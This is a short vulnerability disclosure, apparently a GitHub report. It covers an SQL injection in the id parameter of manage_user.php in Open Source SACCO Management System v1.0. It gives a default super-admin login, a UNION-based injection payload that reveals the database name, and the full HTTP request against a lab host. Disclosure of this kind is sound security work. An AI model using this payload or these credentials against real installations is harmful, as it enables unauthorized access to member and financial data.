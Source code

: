 # Open Source SACCO Management System v1.0 by mayuri_k has SQL injection

BUG_Author: kingcoues

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15372/open-source-sacco-management-system-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /sacco_shield/manage_user.php

Vulnerability location: /sacco_shield/manage_user.php?id=, id

dbname = sacco,length=5

[+] Payload: /sacco_shield/manage_user.php?id=-1%20union%20select%201,2,database(),4,5,6,7,8--+ // Leak place ---> id

```sql
GET /sacco_shield/manage_user.php?id=-1%20union%20select%201,2,database(),4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191198699-8432d46f-57a2-40c2-8b8c-fa9669bb622b.png)
